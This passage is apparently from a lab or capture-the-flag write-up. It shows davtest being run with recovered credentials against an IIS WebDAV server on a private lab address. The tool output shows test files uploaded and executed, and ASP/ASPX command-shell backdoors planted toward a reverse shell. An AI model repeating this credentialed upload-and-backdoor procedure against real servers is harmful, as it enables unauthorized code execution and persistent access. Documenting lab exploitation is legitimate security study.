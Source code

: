 ### Davtest --> RCE

Since we have credentials, we can try to place files on the website such as ASPX reverse shells (since this is running IIS). We can test these credentials with `davtest`:

```
$ davtest -auth fmcsorley:CrabSharkJellyfish192 -sendbd auto -url http://192.168.197.122
********************************************************
 Testing DAV connection
OPEN            SUCCEED:                http://192.168.197.122
********************************************************
NOTE    Random string for this session: YuAxJmlk
********************************************************
 Creating directory
MKCOL           SUCCEED:                Created http://192.168.197.122/DavTestDir_YuAxJmlk
********************************************************
 Sending test files
PUT     jsp     SUCCEED:        http://192.168.197.122/DavTestDir_YuAxJmlk/davtest_YuAxJmlk.jsp
PUT     pl      SUCCEED:        http://192.168.197.122/DavTestDir_YuAxJmlk/davtest_YuAxJmlk.pl
PUT     asp     SUCCEED:        http://192.168.197.122/DavTestDir_YuAxJmlk/davtest_YuAxJmlk.asp
PUT     shtml   SUCCEED:        http://192.168.197.122/DavTestDir_YuAxJmlk/davtest_YuAxJmlk.shtml
PUT     php     SUCCEED:        http://192.168.197.122/DavTestDir_YuAxJmlk/davtest_YuAxJmlk.php
PUT     cfm     SUCCEED:        http://192.168.197.122/DavTestDir_YuAxJmlk/davtest_YuAxJmlk.cfm
PUT     txt     SUCCEED:        http://192.168.197.122/DavTestDir_YuAxJmlk/davtest_YuAxJmlk.txt
PUT     jhtml   SUCCEED:        http://192.168.197.122/DavTestDir_YuAxJmlk/davtest_YuAxJmlk.jhtml
PUT     cgi     SUCCEED:        http://192.168.197.122/DavTestDir_YuAxJmlk/davtest_YuAxJmlk.cgi
PUT     html    SUCCEED:        http://192.168.197.122/DavTestDir_YuAxJmlk/davtest_YuAxJmlk.html
PUT     aspx    SUCCEED:        http://192.168.197.122/DavTestDir_YuAxJmlk/davtest_YuAxJmlk.aspx
********************************************************
 Checking for test file execution
EXEC    jsp     FAIL
EXEC    pl      FAIL
EXEC    asp     SUCCEED:        http://192.168.197.122/DavTestDir_YuAxJmlk/davtest_YuAxJmlk.asp
EXEC    shtml   FAIL
EXEC    php     FAIL
EXEC    cfm     FAIL
EXEC    txt     SUCCEED:        http://192.168.197.122/DavTestDir_YuAxJmlk/davtest_YuAxJmlk.txt
EXEC    jhtml   FAIL
EXEC    cgi     FAIL
EXEC    html    SUCCEED:        http://192.168.197.122/DavTestDir_YuAxJmlk/davtest_YuAxJmlk.html
EXEC    aspx    SUCCEED:        http://192.168.197.122/DavTestDir_YuAxJmlk/davtest_YuAxJmlk.aspx
********************************************************
 Sending backdoors
PUT Shell:      asp     SUCCEED:        http://192.168.197.122/DavTestDir_YuAxJmlk/YuAxJmlk_aspx_cmd.aspx
PUT Shell:      asp     SUCCEED:        http://192.168.197.122/DavTestDir_YuAxJmlk/YuAxJmlk_asp_cmd.asp
** ERROR: Unable to find a backdoor for txt **
** ERROR: Unable to find a backdoor for html **
PUT Shell:      aspx    SUCCEED:        http://192.168.197.122/DavTestDir_YuAxJmlk/YuAxJmlk_aspx_cmd.aspx

********************************************************
/usr/bin/davtest Summary:
Created: http://192.168.197.122/DavTestDir_YuAxJmlk
PUT File: http://192.168.197.122/DavTestDir_YuAxJmlk/davtest_YuAxJmlk.jsp
PUT File: http://192.168.197.122/DavTestDir_YuAxJmlk/davtest_YuAxJmlk.pl
PUT File: http://192.168.197.122/DavTestDir_YuAxJmlk/davtest_YuAxJmlk.asp
PUT File: http://192.168.197.122/DavTestDir_YuAxJmlk/davtest_YuAxJmlk.shtml
PUT File: http://192.168.197.122/DavTestDir_YuAxJmlk/davtest_YuAxJmlk.php
PUT File: http://192.168.197.122/DavTestDir_YuAxJmlk/davtest_YuAxJmlk.cfm
PUT File: http://192.168.197.122/DavTestDir_YuAxJmlk/davtest_YuAxJmlk.txt
PUT File: http://192.168.197.122/DavTestDir_YuAxJmlk/davtest_YuAxJmlk.jhtml
PUT File: http://192.168.197.122/DavTestDir_YuAxJmlk/davtest_YuAxJmlk.cgi
```